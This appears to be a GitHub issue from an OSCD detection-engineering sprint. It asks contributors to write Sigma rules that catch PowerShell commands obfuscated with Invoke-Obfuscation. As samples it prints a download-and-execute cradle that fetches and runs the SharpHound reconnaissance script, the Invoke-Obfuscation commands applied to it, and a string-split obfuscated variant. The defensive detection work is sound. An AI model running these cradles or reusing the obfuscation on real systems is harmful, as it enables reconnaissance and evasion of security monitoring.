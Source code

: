 # Hello, fellow OSCD participant!
This is your guide on how you can help us with soving this issue.

# Tasklist
You can pick up some of the methods of PowerShell command and script obfuscation, provided by the [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) framework from the table below and develop Sigma rules for them. You will need to use [regular expressions](https://github.com/Neo23x0/sigma/wiki/Specification#types) in Sigma rules.

## Original command
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```

## Invoke-Obfuscation premise
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1'); Invoke-BloodHound
```
## 

| Case # | Option #1 | Option #2 | Option #3 | Result |
| ------ | ------- | --- | --- | --- |
| 2 | TOKEN | TOKEN\STRING | TOKEN\STRING\1 | Invoke-Expression (New-Object Net.WebClient).DownloadString(('ht'+'tp'+'s://raw.gith'+'ubus'+'e'+'rcont'+'ent.com/BloodHo'+'und'+'A'+'D'+'/B'+'loo'+'dHo'+'un'+'d/a7'+'e'+'a5'+'36'+'387'+'0d92'+'5bc31'+'d'+'3'+'a441a361f38b0a'+'add0b'+'/Inge'+'s'+'tors/'+'Shar'+'pHou'+'n'+'d'+'.ps'+'1')); Invoke-BloodHound |

